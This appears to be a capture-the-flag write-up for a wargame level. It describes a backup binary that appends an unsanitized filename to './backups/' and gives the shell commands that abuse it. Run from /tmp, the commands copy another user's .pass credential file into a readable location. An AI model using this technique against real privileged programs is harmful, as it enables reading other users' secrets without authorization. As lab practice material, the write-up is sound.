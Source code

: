 # Level08

Our goal is to read the .pass file from another user's home directory, even though we don’t have direct permission.

## Binary behavior
When decompiling the binary, we notice:
- It expects one argument: the name of a file to back up.
- It logs the start and end of the backup using a custom function `log_wrapper()`.

It :
- Opens a log file at ./backups/.log.
- Logs the start of the backup.
- Opens the file given in argument.
- Prepares the destination path as ./backups/<filename>.
- Copies the content byte by byte.
- Logs the end of the backup.

The destination path is built like this:
```
strncpy(local_78, "./backups/", 11);
strncat(local_78, filename, ...);
```

So if we pass a filename like:
```
home/users/level09/.pass
```
The final path becomes:
```
./backups/home/users/level09/.pass
```

The program will then open this file, copy its content, and write it into that path under ./backups/.

## Exploitation
The vulnerability here is that the user input (`filename`) is concatenated directly to the backup path without any sanitization. This allows us to inject subdirectories and filenames.

To exploit it:
```
cd /tmp
mkdir -p ./backups/home/users/level09/
~/level08 home/users/level09/.pass
cat /tmp/backups/home/users/level09/.pass
```
The program copies the target file into our own directory. We can now read the content.